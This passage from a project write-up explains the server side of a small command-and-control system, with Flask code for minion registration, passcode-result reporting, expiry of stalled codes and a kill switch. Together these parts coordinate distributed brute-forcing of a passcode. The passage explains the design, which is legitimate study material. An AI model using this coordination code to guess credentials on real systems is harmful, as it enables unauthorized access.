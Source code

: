 Once a minion tries a code, it will then submit the result to the C2 via the `/<uuid>/codeResponse` endpoint:

```python
@app.route('/<uuid>/codeResponse',methods=["POST"])
def submit_code(uuid):
    global knownMinions
    if uuid not in knownMinions.keys():
        abort(403)
    global codes
    global workingCodes
    data = dict(request.get_json())
    if 'code' not in data or 'status' not in data:
        abort(500)
    code = data['code']
    status = data['status']
    del workingCodes[code]
    # check for expired codes from crashed minions
    toDel = []
    for k,v in workingCodes.items():
        if arrow.utcnow().timestamp() - list(v.values())[0].timestamp() > 180:
            # past 180 second expiration
            toDel.append(k)
            codes.append(k)
            logging.info(f"Cleaning code {code} from expired workingCodes")
    for k in toDel:
        del workingCodes[k]
    # check status of passcode trial
    if status == 'success':
        # we got em
        logging.info(f"SUCCESS!!!!!!: {code}")
        global doDie
        doDie = True # tell all minions to die on next connection
        return jsonify({"cmd":"die"})
    # failure
    logging.info(f"fail: {code}")
    return jsonify({"cmd":"getNew"}) # tell minions to get a new code
```

The rest of the C2 can be found at [bingus.py](./bingus.py). The only other parts of the program that matter are the registration endpoints, which are used to uniquely identify minions if necessary. A kill switch also needed to be implemented, so that was done in a check before any request was processed:

```python
@app.before_request
def before_it():
    global doDie
    if doDie:
        return jsonify({"cmd":"die"})

@app.route('/')
def root():
    return 'bingus'

@app.route('/register',methods=["GET"])
def register():
    global knownMinions
    alreadyKnown = True if request.remote_addr in knownMinions.values() else False
    if alreadyKnown:
        abort(403)
    thisUUID = str(uuid.uuid4())
    knownMinions[thisUUID] = request.remote_addr
    return jsonify({"uuid": thisUUID, "cmd":"continue"})

```